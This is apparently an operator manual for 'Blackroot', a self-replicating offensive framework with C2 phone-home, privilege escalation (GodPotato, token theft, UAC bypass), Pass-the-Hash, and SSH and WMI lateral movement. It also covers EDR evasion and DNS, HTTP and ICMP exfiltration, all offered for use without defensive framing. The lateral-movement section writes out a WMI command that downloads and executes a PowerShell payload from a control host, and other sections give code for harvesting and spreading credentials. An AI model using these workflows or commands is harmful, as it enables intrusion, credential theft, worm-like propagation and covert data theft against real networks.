

# How to Make the Most of Blackroot

> **Blackroot v4.5.0-Hardened** — Tactical Framework Operator Reference
>
> This guide walks through every major subsystem, CLI workflow, tuning knob, and integration pattern available to an operator. Read top-to-bottom for a full mental model, or jump to the section most relevant to your current operation.

---

## Table of Contents

1. [System Architecture Overview](#1-system-architecture-overview)
2. [Quick-Start: CLI Reference](#2-quick-start-cli-reference)
3. [Reconnaissance & Network Mapping](#3-reconnaissance--network-mapping)
4. [Threat Intelligence Loop](#4-threat-intelligence-loop)
5. [Resilience Layer: Circuit Breakers & Backoff](#5-resilience-layer-circuit-breakers--backoff)
6. [Replication Packaging & Seed Distribution](#6-replication-packaging--seed-distribution)
7. [Privilege Escalation Subsystem](#7-privilege-escalation-subsystem)
8. [AST Sandboxing & Mutation Verification](#8-ast-sandboxing--mutation-verification)
9. [BlackVault: Secure Artifact Storage](#9-blackvault-secure-artifact-storage)
10. [Economic Layer (BEL v3)](#10-economic-layer-bel-v3)
11. [Cross-Chain Bridge & Solvency](#11-cross-chain-bridge--solvency)
12. [Lateral Movement & Propagation](#12-lateral-movement--propagation)
13. [Stealth & EDR Evasion](#13-stealth--edr-evasion)
14. [Swarm Mesh & Agent Coordination](#14-swarm-mesh--agent-coordination)
15. [Exfiltration Channels](#15-exfiltration-channels)
16. [Testing & Validation Harness](#16-testing--validation-harness)
17. [Configuration Files & Tuning](#17-configuration-files--tuning)
18. [Operational Tips & Pitfalls](#18-operational-tips--pitfalls)

---

## 1. System Architecture Overview

Blackroot is organized into loosely-coupled subsystems, each ownable by an independent agent, all wired together through a shared Redis bus, `BlackVault` artifact store, and the `SwarmMesh` command fabric.



**Key design principles:**
- **Fail-open everywhere.** Network calls are wrapped in `CircuitBreaker`; if a channel is down, the caller gets a `RuntimeError("Circuit OPEN")` and must handle it gracefully — never block the pipeline.
- **No plaintext secrets in vault.** Every artifact is encrypted before storage; decoy vaults are created at runtime to confuse memory forensics.
- **Economy-driven scheduling.** Agents are issued ROOT budgets; expensive operations are debited. An agent that runs bankrupt is suspended automatically.
- **Simulation before production.** `blackroot.py simulate` exercises all 7 pipelines end-to-end without real network impact — always run this after changes.

---

## 2. Quick-Start: CLI Reference

All day-to-day operator interactions go through `blackroot.py`.

### 2.1 System Health Check

```powershell
.venv\Scripts\python.exe blackroot.py status
```

Outputs:
- **Host & Python version** — confirm runtime is 3.14+
- **EDR Layer** — threat score (0–100), active detections, running AV drivers
- **BEL v3** — currency, bankruptcy gate, spread
- **Bridge** — solvency status, daily limit, multisig threshold

> [!TIP]
> Run `status` before every operation. If `Threat Score` is above 60, consider activating stealth mitigations (see §13) before proceeding.

### 2.2 Full End-to-End Simulation

```powershell
.venv\Scripts\python.exe blackroot.py simulate
```

Runs all **7 pipeline stages** in sequence:

| Stage | What it validates |
|---|---|
| 1. Tactical Infrastructure | C2 browser dropper + DNS tunnel listener start cleanly |
| 2. Scout Reconnaissance | ScoutAgent discovers targets, scores them |
| 3. BEL Constraint | Mission cost is debited from agent budget |
| 4. PrivEsc Analysis | Token theft, GodPotato, UAC bypass vectors evaluated |
| 5. Lateral Movement | Pass-the-Hash + remote check-in handshake |
| 6. Browser Payloads & Exfil | CORS dropper delivery + telemetry ingestion |
| 7. DeFi Settlement | Deposit, 2PC withdrawal, EIP-712 signatures, on-chain burn |

**After any code change, always verify 7/7 pass:**

```powershell
.venv\Scripts\python.exe blackroot.py simulate
# Expected: === SIMULATION COMPLETE: ALL 7 PIPELINES VERIFIED (100%) ===
```

### 2.3 Privilege Escalation Audit

```powershell
.venv\Scripts\python.exe blackroot.py privesc --assess
```

Checks in priority order:
1. `SeImpersonate` / `SeAssignPrimary` → GodPotato readiness
2. GodPotato binary resolver (embedded or compiled on-the-fly)
3. `SeDebugPrivilege` for in-memory token duplication
4. UAC auto-elevation vectors (`eventvwr` COM hijack, WSReset)

### 2.4 Bridge Solvency Report

```powershell
# Default solvency snapshot (0 circulating)
.venv\Scripts\python.exe blackroot.py bridge --solvency

# Provide real circulating supply to check backing ratio
.venv\Scripts\python.exe blackroot.py bridge --solvency --circulating 5000

# Deploy bridge contracts (dry run without RPC URL)
.venv\Scripts\python.exe blackroot.py bridge --deploy
```

### 2.5 Starting Services

```powershell
# Start everything: C2, DNS tunnel, agent swarm
.venv\Scripts\python.exe blackroot.py start --all

# Start individual services
.venv\Scripts\python.exe blackroot.py start --dns --dns-port 5355
.venv\Scripts\python.exe blackroot.py start --c2 --port 8888
.venv\Scripts\python.exe blackroot.py start --agents
```

---

## 3. Reconnaissance & Network Mapping

### 3.1 Architecture

Recon has three tiers:

```
recon/scanner.py       ← HTTP/web recon, form crawling, BeautifulSoup
recon/passive.py       ← Passive OSINT (Shodan, cert transparency, dnstwist)
recon/network_mapper.py ← Live ARP + ICMP + TCP with nmap integration
```

All three are circuit-breaker-protected (see §5).

### 3.2 `ReconModule` — Web Reconnaissance

```python
from black_vault import BlackVault
from swarm_mesh import SwarmMesh
from recon.scanner import ReconModule

vault = BlackVault(master_password="yourpass")
swarm = SwarmMesh()
recon = ReconModule(vault=vault, swarm=swarm)

# Crawl a target
results = recon.scan_target("https://example.com", depth=2)
```

Internally, `ReconModule` rotates through a user-agent pool:
```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/120...
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)...
curl/7.68.0
BLACKROOT.Recon-Agent
```

> [!TIP]
> Add proxies to `PROXY_POOL` in `recon/scanner.py` to route outbound recon through a rotation pool for attribution resistance.

### 3.3 Network Mapper & `NodeProfile`

`recon/network_mapper.py` performs live scanning and builds `NodeProfile` objects — your primary scoring unit:

```python
from recon.network_mapper import NetworkMapper

mapper = NetworkMapper()
nodes = mapper.discover_subnet("192.168.10.0/24")

for node in nodes:
    print(f"{node.ip} | Score: {node.zombie_candidate_score:.1f}")
    print(f"  CVEs: {node.cves}")
    print(f"  Exploit Viability: {node.exploit_viability:.2f}")
    print(f"  Threat Tags: {node.threat_tags}")
```

**`NodeProfile` fields that matter most:**

| Field | Meaning |
|---|---|
| `zombie_candidate_score` | Composite score 0–100; sort by this to prioritize targets |
| `exploit_viability` | 0.0–1.0 from CVE exploitation scoring (see §4) |
| `threat_score` | Aggregated threat intel match score |
| `cves` | List of matched `CVERecord` objects |
| `threat_tags` | Human-readable risk labels (e.g. `"CRITICAL_RCE"`, `"WORM_PROPAGATION"`) |
| `services` | Dict of `port → (name, banner)` from live fingerprinting |
| `os_guess` | OS detection from nmap/TCP fingerprinting |

> [!NOTE]
> `zombie_candidate_score` automatically receives an **exploit viability bonus** when matched CVEs with `exploit_available = True` are present. The highest-scoring nodes are surfaced first during propagation planning.

### 3.4 Passive Recon

```python
from recon.passive import PassiveRecon

passive = PassiveRecon(vault=vault)
passive.enrich_host("192.168.10.5")  # Adds Shodan, cert, dnstwist data to vault
```

> [!NOTE]
> Shodan requires a valid API key in `config.json`. Without it, Shodan lookups are skipped but all other passive signals remain active.

### 3.5 Scan Persistence (SQLite WAL Fallback)

Scan results are persisted to a dual-backend store: **Redis primary → SQLite WAL fallback**.

```python
from recon.scan_persistence import ScanPersistence

store = ScanPersistence()
store.save_scan("192.168.10.5", node_data)      # Writes to Redis; auto-falls back to SQLite
records = store.load_scan("192.168.10.5")
store.vacuum_old_records(older_than_days=7)      # Prune stale scans
```

If Redis is unavailable at startup, `ScanPersistence` silently switches to `scan_cache.db` in WAL mode — no data is lost.

---

## 4. Threat Intelligence Loop

### 4.1 CVE Database

The threat intel engine ships with pre-loaded high-impact enterprise CVEs:

| CVE | Description | CVSS | Exploit Maturity |
|---|---|---|---|
| CVE-2021-44228 | Log4Shell (Apache Log4j RCE) | 10.0 | FUNCTIONAL_HIGH |
| CVE-2020-1472 | Zerologon (AD privilege escalation) | 10.0 | FUNCTIONAL |
| CVE-2017-0144 | EternalBlue (SMBv1 RCE) | 9.3 | HIGH |
| CVE-2019-0708 | BlueKeep (RDP RCE) | 9.8 | FUNCTIONAL |
| CVE-2024-6387 | regreSSHion (OpenSSH signal handler RCE) | 8.1 | PROOF_OF_CONCEPT |
| CVE-2021-34527 | PrintNightmare (Windows Print Spooler) | 8.8 | FUNCTIONAL |

### 4.2 Banner-to-CVE Matching

```python
from recon.cve_lookup import lookup_cves_for_banner, lookup_cves_for_service

# Match against raw service banner
matches = lookup_cves_for_banner("Apache Log4j 2.14")
for cve in matches:
    print(f"{cve.cve_id}: {cve.description} (CVSS {cve.cvss_score})")

# Match by service name
matches = lookup_cves_for_service("ssh", "7.4")
```

### 4.3 Node Threat Assessment

```python
from recon.threat_intelligence import assess_node_threat

threat_data = assess_node_threat(
    services={"22": ("ssh", "OpenSSH 7.4"), "445": ("smb", "Windows SMB")},
    os_guess="Windows Server 2016"
)

print(f"Threat Score: {threat_data['threat_score']}")
print(f"Exploit Viability: {threat_data['exploit_viability']}")
print(f"Tags: {threat_data['threat_tags']}")
```

### 4.4 Adding Your Own CVEs

Extend the database in `recon/threat_intelligence.py`:

```python
CVERecord(
    cve_id="CVE-2024-XXXX",
    description="Your custom CVE",
    cvss_score=9.5,
    cvss_vector="AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H",
    affected_products=["product-name"],
    affected_versions=["<=2.0"],
    exploit_available=True,
    exploit_maturity="FUNCTIONAL",
    tags=["rce", "unauthenticated"],
)
```

---

## 5. Resilience Layer: Circuit Breakers & Backoff

### 5.1 Circuit Breaker

Every outbound network call (Shodan, passive recon HTTP, replication HTTP) is wrapped in a named `CircuitBreaker`:

```
State machine: OK → OPEN (after N failures) → HALF_OPEN (after timeout) → OK
```

```python
from recon.resilience import CircuitBreakerRegistry

# Get a named breaker (created on first access, singleton per name)
circuit = CircuitBreakerRegistry.get("shodan", failure_limit=5, timeout=60)

try:
    result = circuit.call(requests.get, "https://api.shodan.io/...")
except RuntimeError as e:
    if "Circuit OPEN" in str(e):
        # Channel is degraded — use fallback or skip
        result = load_from_cache()
```

**Default parameters:**

| Parameter | Default | Meaning |
|---|---|---|
| `failure_limit` | 5 | Failures before tripping to OPEN |
| `timeout` | 60 s | Cooldown before attempting HALF_OPEN |

Override for critical channels:

```python
# Stricter: trip after 2 failures, 2-minute cooldown
critical = CircuitBreakerRegistry.get("c2_callback", failure_limit=2, timeout=120)
```

### 5.2 Retry with Backoff

```python
from recon.resilience import RetryWithBackoff

retry = RetryWithBackoff(max_attempts=4, base_delay=1.0, backoff_factor=2.0)

result = retry.execute(lambda: requests.post(c2_endpoint, json=payload))
```

Delays: 1s → 2s → 4s → 8s (exponential). After exhausting retries, the last exception is re-raised.

### 5.3 Inspect All Breaker States

```python
from recon.resilience import CircuitBreakerRegistry

for name, state in CircuitBreakerRegistry.status().items():
    print(f"{name}: {state}")
# shodan: OK
# passive_http: OPEN
# replication: OK
```

---

## 6. Replication Packaging & Seed Distribution

### 6.1 Build a Seed Package

A **replication seed** is a self-contained, cryptographically verified archive of the entire framework ready to bootstrap itself on a fresh remote host.

```python
from core.replication import package_propagation_seed

# Build a .tar.gz package in the system temp dir
path = package_propagation_seed(output_dir=None, archive_format="tar.gz")
print(f"Seed ready: {path}")

# Or build a .zip for Windows targets
path = package_propagation_seed(archive_format="zip")
```

The archive includes:
- All core subsystems (`agents/`, `kernel/`, `core/`, `recon/`, `stealth/`, `economic/`, `bridge/`, `vault/`, etc.)
- **Bootstrap runners**: `bootstrap.sh` (Linux/macOS) and `bootstrap.ps1` (Windows)
- **`run.py`**: Remote agent bootstrap with C2 phone-home, challenge-login, and heartbeat loop
- **`config.json`**: Injected C2 host, port, and registration flags
- **`manifest.json`**: SHA-256 digest of every file + HMAC-SHA256 canary

### 6.2 Verify Bundle Integrity

```python
from core.replication import verify_seed_integrity

ok, message = verify_seed_integrity("/path/to/bundle_dir_or_manifest.json")
if ok:
    print("Bundle is intact ✓")
else:
    print(f"Integrity failure: {message}")  # Points to tampered or missing file
```

> [!IMPORTANT]
> Always verify a received bundle before executing it. The HMAC canary in `manifest.json` will catch any post-packaging tampering, file additions, or file deletions.

### 6.3 Customizing C2 Injection

The `C2_IP` is baked into `config.json` during bundle preparation. Set it via environment variable before packaging:

```python
import os
os.environ["C2_HOST"] = "10.0.0.1"
os.environ["C2_PORT"] = "5555"

from core.replication import package_propagation_seed
seed = package_propagation_seed()
```

Or patch `config.json` directly after extraction — the HMAC canary only covers the files at bundle creation time.

---

## 7. Privilege Escalation Subsystem

### 7.1 Vector Priority Ladder

Blackroot evaluates escalation vectors in this priority order:

```
1. GodPotato (SeImpersonate → SYSTEM)      ← highest success rate from service accounts
2. In-Memory Token Theft (DuplicateTokenEx) ← requires SeDebugPrivilege (admin context)
3. UAC Auto-Elevation (eventvwr COM hijack) ← works against standard admin UX
4. WSReset Auto-Elevation                   ← backup UAC bypass
```

### 7.2 Programmatic Assessment

```python
from agents.privesc import WindowsPrivesc

wp = WindowsPrivesc()

# Check token privileges
seimpersonate = wp._check_seimpersonate()
print(f"Potato-ready: {seimpersonate['potato_ready']}")

# Try SeDebugPrivilege
debug_ok = wp._enable_debug_privilege()

# Attempt full escalation chain (auto-selects best vector)
result = wp.escalate()
print(f"Escalation result: {result}")
```

### 7.3 GodPotato Binary

The binary is embedded as bytes and resolved at runtime:

```python
binary = wp._resolve_godpotato_binary()
if binary:
    # embedded binary available
    wp._run_godpotato(binary, command="whoami")
else:
    # falls through to build/download path
```

> [!NOTE]
> GodPotato requires `SeImpersonate` privilege, which is typically available from service accounts (IIS, SQL Server, etc.). Running as a standard user will fall through to the UAC bypass vectors instead.

---

## 8. AST Sandboxing & Mutation Verification

This subsystem governs every piece of code that enters the agent runtime — no untrusted code runs without passing through it.

### 8.1 AST Policy Validator

```python
from assimilate.src.neuro_assimilator import ASTPolicyValidator

validator = ASTPolicyValidator()
safe, violations = validator.validate(source_code_string)

if not safe:
    for v in violations:
        print(f"  VIOLATION: {v}")
```

**What it blocks:**

| Category | Examples |
|---|---|
| Forbidden function calls | `exec`, `eval`, `compile`, `open`, `subprocess.run`, `os.system` |
| Forbidden attribute access | `__subclasses__`, `__mro__`, `__bases__`, `__globals__` |
| Dunder string constants | `'__builtins__'` passed to `getattr()` as a string |
| Forbidden imports | `ctypes`, `subprocess`, `pty`, `shutil`, `socket`, `pickle` |
| Nesting depth | Statements nested > 8 levels (configurable) |

### 8.2 Mutation Verification Harness

```python
from assimilate.src.neuro_assimilator import MutationVerificationHarness, SecurityManager

sm = SecurityManager()
harness = MutationVerificationHarness(validator=sm.policy_validator, security_manager=sm)

verified, report = harness.verify_transformation(original_source, mutated_source)
print(report)
# {
#   'valid_syntax': True,
#   'divergence_score': 0.72,     ← how different the identifier set is
#   'security_passed': True,
#   'semantic_match': True,        ← original and mutated produce same 'result'
#   'original_hash': '3767ffa5...',
#   'mutated_hash': '24a8503d...'
# }
```

A transformation is accepted only if **all three** pass: `valid_syntax AND security_passed AND semantic_match`.

### 8.3 Full Assimilation Pipeline

```python
from assimilate.src.neuro_assimilator import NeuroAssimilatorAgent

agent = NeuroAssimilatorAgent(vault_password="yourpass")

# Full pipeline: policy audit → mutation → verification → compile → vault store
compiled = agent.assimilate_with_mutation(source_code, name="my_module")

if compiled:
    result = agent.execute_safely(compiled)
```

Steps internally:
1. **Pre-mutation policy audit** — rejects dangerous code before touching it
2. **AST identifier mutation** — `AdvancedIdentifierRenamer` obfuscates local names
3. **Verification harness** — syntax, divergence, security, semantic invariance checks
4. **Compilation** — `safe_compile()` into a code object
5. **Vault storage** — stored with 24-hour TTL, encrypted at rest

### 8.4 Polymorphic Mutation Engine

```python
from mutator_engine import AdvancedIdentifierRenamer
import ast

tree = ast.parse(source_code)
renamed = AdvancedIdentifierRenamer(obfuscation_chance=0.65).visit(tree)
ast.fix_missing_locations(renamed)
mutated_source = ast.unparse(renamed)
```

**`obfuscation_chance`** controls what fraction of eligible identifiers get renamed (0.0 = none, 1.0 = all). `result`, `main`, `self`, `cls`, and all Python builtins are excluded from renaming regardless.

---

## 9. BlackVault: Secure Artifact Storage

`BlackVault` is the encrypted key-value store used by every subsystem to persist sensitive artifacts.

### 9.1 Core Operations

```python
from black_vault import BlackVault

vault = BlackVault(master_password="yourpass")

# Store with optional TTL
vault.store("creds:dc01", b"Administrator:NTLMhash", expire_minutes=60)

# Retrieve
data = vault.retrieve("creds:dc01")

# Delete
vault.delete("creds:dc01")

# Enumerate stored keys
for key in vault.list_keys():
    print(key)
```

### 9.2 Decoy Vaults

At startup, `BlackVault` creates **3 decoy vault directories** with randomized names alongside the real vault. Memory forensics tools that enumerate vault paths will find multiple candidates — only the real vault can decrypt data with the correct master password.

### 9.3 Secure Memory Pool

The master key is held in `SecureMemoryPool`, which uses `mlock`/`VirtualLock` to prevent the key material from being swapped to disk.

### 9.4 Remote Vault Access

For distributed operations, use `remote_vault_client.py` or `blackvault_client.py` to access a vault server over mTLS:

```python
from remote_vault_client import RemoteVaultClient

client = RemoteVaultClient(host="10.0.0.1", port=9443, cert=("client.crt", "client.key"))
client.store("key", value)
```

---

## 10. Economic Layer (BEL v3)

BEL (Budget-Enforced Ledger) prevents unbounded resource consumption by assigning ROOT budgets to agents and billing them per operation.

### 10.1 Configuration (`economic/bel_layer.py`)

```python
CFG = {
    "currency": "ROOT",
    "bankruptcy_threshold": -100,       # Agent suspended if balance drops below this
    "market_maker_spread": 0.05,        # 5% bid-ask spread for ROOT trading
    "circuit_breaker_loss": 0.2,        # 20% system-wide loss triggers circuit breaker
    "systemic_risk_threshold": 0.3,     # Max leverage ratio before risk warnings
    "reputation_decay": 0.995,          # Per-cycle reputation degradation factor
    "base_roi": 0.02,                   # 2% base return per epoch
}
```

### 10.2 Agent Registration & Budgeting

```python
# Agents self-register on first action
from economic.bel_layer import BELLedger

ledger = BELLedger()
await ledger.register_agent("scout-01", initial_balance=50.0)
await ledger.debit("scout-01", 5.0, reason="network_scan_mission")
balance = await ledger.get_balance("scout-01")
```

### 10.3 Key Economic Concepts

| Concept | Mechanic |
|---|---|
| **Staking** | Agents can lock ROOT for a staking period to earn yield (base ROI + scarcity multiplier) |
| **Reputation** | Decays at 0.995× per cycle; successful operations restore it; reputation affects mission assignment priority |
| **Bankruptcy Gate** | At -100 ROOT an agent's status flips to `BANKRUPT` and it is suspended |
| **Market Maker** | A built-in AMM maintains ROOT liquidity with a 5% spread; agents can buy/sell ROOT |
| **Circuit Breaker** | If total system leverage exceeds 30%, new debts are blocked until the ratio recovers |

> [!WARNING]
> Agents with low reputation are deprioritized for high-value missions even if their balance is healthy. Keep reputation above 0.8 by completing assigned missions successfully.

---

## 11. Cross-Chain Bridge & Solvency

The bridge locks ROOT on the internal ledger and mints pegged `rROOT` on-chain, enabling settlement and provable solvency.

### 11.1 Deposit (ROOT → rROOT)

```python
from bridge.bridge_client import BridgeClient
from bridge.oracle import BridgeOracle, MockBELLedger

oracle = BridgeOracle(bridge_address="0xYOUR_BRIDGE_ADDR")
client = BridgeClient(oracle)

tx = await client.deposit("agent-01", 200.0)  # 200 ROOT locked, 200 rROOT minted on-chain
print(f"TX: {tx['tx_hash']}, Status: {tx['status']}")
```

### 11.2 Withdrawal (rROOT → ROOT) — 2-Phase Commit

```powershell
# Full 2PC withdrawal: reserve → collect EIP-712 signatures → finalize
```

```python
# Step 1: Reserve
reserve_id = await oracle.reserve_withdrawal("agent-01", 100.0)

# Step 2: Collect validator signatures (threshold: 2-of-3)
sig1 = validator1.sign_withdrawal(reserve_id)
sig2 = validator2.sign_withdrawal(reserve_id)

# Step 3: Finalize (burns escrow, releases ROOT)
result = await oracle.finalize_withdrawal(reserve_id, [sig1, sig2])
```

### 11.3 Solvency Invariant

The oracle continuously checks:

```
Solvency = (BEL Escrow ROOT) ≥ (Circulating rROOT on-chain)
```

```python
is_solvent, circulating, escrow, delta = oracle.verify_solvency(circulating_rroot)
print(f"Ratio: {escrow/circulating:.1f}× backed")  # Must be ≥ 1.0×
```

> [!CAUTION]
> Never process withdrawals if `is_solvent` is `False`. A deficit means the escrow cannot cover outstanding rROOT — investigate before allowing further redemptions.

### 11.4 Deploy Bridge Contracts

```powershell
.venv\Scripts\python.exe blackroot.py bridge --deploy --rpc-url https://your-rpc-endpoint
```

Dry-run mode (no `--rpc-url`): generates a deployment manifest without sending transactions.

---

## 12. Lateral Movement & Propagation

### 12.1 Propagation Agent Initialization

```python
from agents.propagation_agents import PropagationAgent

agent = PropagationAgent()

# SSH propagation (requires paramiko)
agent.propagate_via_ssh(
    target_ip="192.168.10.5",
    username="root",
    password="secret",        # or use key_file=
    c2_host="10.0.0.1",
    c2_port=5555
)
```

### 12.2 Pass-the-Hash (Windows SMB)

```python
# Retrieved from credential harvester
cred = agent.credential_harvester.get_credential("CORP\\Administrator")

# PtH propagation via SMB (requires impacket)
agent.propagate_via_smb_pth(
    target="192.168.10.5",
    username=cred["username"],
    nt_hash=cred["nt_hash"],
    domain=cred["domain"]
)
```

> [!NOTE]
> `impacket` is not bundled by default due to its size. Install with `pip install impacket` for full SMB/WMI support. Without it, the framework falls back to subprocess-based modes.

### 12.3 WMI Remote Execution

```python
from network_propagation_wmi_executor import WMIExecutor

wmi = WMIExecutor(target="192.168.10.5", username="CORP\\Admin", password="pass")
wmi.execute_command("powershell -c IEX(New-Object Net.WebClient).DownloadString('http://10.0.0.1:8888/payload.ps1')")
```

### 12.4 Remote Agent Bootstrap

After dropping `run.py` on the target (via SSH/SMB/WMI), the remote agent bootstraps itself:

1. Reads `config.json` for C2 host and port
2. Calls `register_with_c2()` → receives an agent ID
3. Starts `send_heartbeat()` loop (default: every 30s)
4. Awaits mission tasking from C2

---

## 13. Stealth & EDR Evasion

### 13.1 Process Camouflage

```python
from process_camouflage import ProcessCamouflage

cam = ProcessCamouflage()
cam.disguise_as("svchost.exe")        # Rename process in PEB
cam.spoof_parent_pid(winlogon_pid)    # PPID spoofing
```

### 13.2 Behavioral Noise

The `behavioral_noise.py` module continuously generates low-level activity that blends with normal OS background noise:

```python
from behavioral_noise import BehavioralNoiseGenerator

noise = BehavioralNoiseGenerator()
noise.start()       # Background thread: random disk I/O, benign registry reads
# ... run operation ...
noise.stop()
```

### 13.3 Ghost Layer

For extended dwell time, the Ghost Layer maintains a minimal-footprint stub in memory that can re-inflate the full framework on demand:

```python
from ghost_layer import GhostLayer

ghost = GhostLayer()
ghost.hibernate()       # Compress and encrypt self to memory slab, release disk footprint
ghost.resurrect()       # Restore from memory slab
```

### 13.4 Anti-Analysis Hardening

```python
from anti_analysis import AntiAnalysisHarness

harness = AntiAnalysisHarness()
harness.detect_debugger()          # Hardware BP detection, timing checks
harness.detect_sandbox()           # VM artifact checks, uptime, process list
harness.activate_timing_jitter()   # Random sleep intervals to foil timing-based analysis
```

### 13.5 EDR Detection Before Operating

Always run the detector before sensitive operations:

```python
from edr_detector import EDRDetector

detector = EDRDetector()
result = detector.scan_for_threats()

if result.total_score > 60:
    print("HIGH EDR PRESENCE — activate ghost layer before proceeding")
```

---

## 14. Swarm Mesh & Agent Coordination

### 14.1 SwarmMesh Basics

`SwarmMesh` is the gossip-based command fabric connecting all agents:

```python
from swarm_mesh import SwarmMesh

mesh = SwarmMesh()
mesh.broadcast(command="scan", target="192.168.10.0/24", originator="operator")

# Receive results from any agent in the mesh
results = mesh.collect(timeout=30)
```

### 14.2 Built-in Agent Roles

| Agent | File | Role |
|---|---|---|
| Scout | `agents/scout.py` | Network discovery and scoring |
| Infiltrator | `agents/infiltrator.py` | Initial access and foothold |
| Exfiltrator | `agents/exfiltrator.py` | Data staging and exfil |
| Post-Escalation | `agents/post_escalation.py` | Post-compromise collection |
| Propagation | `agents/propagation_agents.py` | Lateral movement |
| Archivist | `agents/archivist.py` | Logs, manifests, and evidence trails |
| Repair | `agents/repair.py` | Self-healing and recovery |
| Scourge | `agents/scourge.py` | Failure forensics (FallmanAgent) |
| Accountant | `agents/accountant.py` | ROOT ledger reconciliation |

### 14.3 Mission Assignment

```python
from agents.mission import MissionController

ctrl = MissionController()
ctrl.assign("scout-01", mission_type="passive_recon", target="192.168.10.0/24", budget=20.0)
ctrl.assign("infiltrator-01", mission_type="initial_access", target="192.168.10.5", budget=30.0)
```

---

## 15. Exfiltration Channels

### 15.1 DNS Tunnel

```python
from exploit.dns_tunnel_server import DNSTunnelServer

srv = DNSTunnelServer(listen_port=5355, domain="your-control-node.com")
srv.start()       # Begins capturing DNS queries for *.your-control-node.com

# On the target, data is encoded into DNS TXT query labels:
# <base32-chunk>.your-control-node.com → decoded and reassembled server-side
```

### 15.2 Browser Dropper (HTTP C2 & Telemetry)

```python
from exploit.browser_dropper import BrowserDropperServer

dropper = BrowserDropperServer(host="0.0.0.0", port=8888)
dropper.start()

# Payloads served at: http://C2:8888/payload.js
# Telemetry received at: http://C2:8888/telemetry  (POST JSON)
```

### 15.3 Parallel Exfil

For large data volumes, `parallel_exfil.py` chunks and uploads across multiple channels concurrently:

```python
from parallel_exfil import ParallelExfilManager

exfil = ParallelExfilManager(channels=["dns", "http", "icmp"])
exfil.exfiltrate(data=staged_archive, priority="high")
```

> [!TIP]
> DNS tunneling is the most covert channel but has the lowest throughput (~1 KB/s). Use HTTP for bulk transfers and DNS for small high-value extracts (credentials, keys).

---

## 16. Testing & Validation Harness

### 16.1 Test Suite Overview

| Test File | Coverage | Tests |
|---|---|---|
| `tests/test_ast_sandboxing.py` | AST policy, mutation harness, full pipeline | 9 |
| `tests/test_threat_intel_loop.py` | CVE matching, exploit scoring, network mapper | 4 |
| `tests/test_replication_packaging.py` | Bundle structure, HMAC, standalone archive | 4 |
| `tests/validate_phase1.py` | C2 injection, run.py bootstrap | 2 |

### 16.2 Running Tests

```powershell
# All Option B/C/D tests in one shot
.venv\Scripts\pytest.exe tests/test_ast_sandboxing.py tests/test_threat_intel_loop.py tests/test_replication_packaging.py -v

# Full Phase 1 validation
.venv\Scripts\python.exe tests/validate_phase1.py

# End-to-end pipeline
.venv\Scripts\python.exe blackroot.py simulate
```

### 16.3 Adding New Tests

Always test new subsystems with:
1. A **happy-path test** (normal input → expected output)
2. A **rejection test** (invalid/dangerous input → safe failure)
3. A **regression guard** (simulate still passes 7/7 after the change)

### 16.4 Before Every Commit

```powershell
# 1. Run dedicated tests
.venv\Scripts\pytest.exe tests/ -v

# 2. Full simulate
.venv\Scripts\python.exe blackroot.py simulate

# 3. Revert runtime state files before staging
git checkout bridge/bridge_state.db

# 4. Commit cleanly
git add <your files>
git commit -m "Descriptive message"
```

---

## 17. Configuration Files & Tuning

### 17.1 `config.json` (Root)

```json
{
  "c2_host": "10.0.0.1",
  "c2_port": 5555,
  "phone_home": true,
  "auto_register": true,
  "shodan_api_key": "YOUR_KEY_HERE",
  "redis_url": "redis://localhost:6379"
}
```

### 17.2 `economic/bel_layer.py` — CFG Dict

Key tuning parameters:

| Key | Default | When to change |
|---|---|---|
| `bankruptcy_threshold` | -100 | Tighten to -50 for conservative ops; loosen to -200 for heavy scanning missions |
| `market_maker_spread` | 0.05 | Lower for more liquid ROOT markets; raise to slow agent spending |
| `circuit_breaker_loss` | 0.2 | Lower (0.1) for high-risk environments to halt faster |
| `reputation_decay` | 0.995 | Raise toward 1.0 to slow reputation erosion during long dormancy |

### 17.3 `recon/resilience.py` — Circuit Breaker Defaults

```python
# In scanner.py, passive.py, replication.py:
self.circuit = CircuitBreaker(failure_limit=5, timeout=60)
```

For high-latency targets (Shodan, remote C2):
```python
self.circuit = CircuitBreaker(failure_limit=3, timeout=120)  # Trip faster, recover slower
```

### 17.4 `mutator_engine.py` — Obfuscation Chance

```python
# In _mutate_source():
AdvancedIdentifierRenamer(obfuscation_chance=0.65).visit(tree)
```

| Value | Behavior |
|---|---|
| 0.0 | No renaming (useful for debugging) |
| 0.65 | Default: moderate obfuscation |
| 0.95 | Aggressive: maximizes identifier churn |
| 1.0 | Every eligible identifier renamed |

---

## 18. Operational Tips & Pitfalls

### ✅ Do

- **Always run `simulate` after any code change** before committing or deploying.
- **Check EDR score** (`blackroot.py status`) before active operations on a target host.
- **Use `vacuum_old_records()`** weekly to prevent the SQLite scan cache from growing unbounded.
- **Monitor agent reputations** in BEL v3 — a reputation-degraded agent will be deprioritized for missions even with a full budget.
- **Verify bundle integrity** (`verify_seed_integrity()`) before executing received replication packages.
- **Keep `bridge_state.db` out of commits** — always `git checkout bridge/bridge_state.db` before staging.

### ❌ Avoid

- **Never hardcode secrets** in source files — use `BlackVault` for all credentials, keys, and hashes.
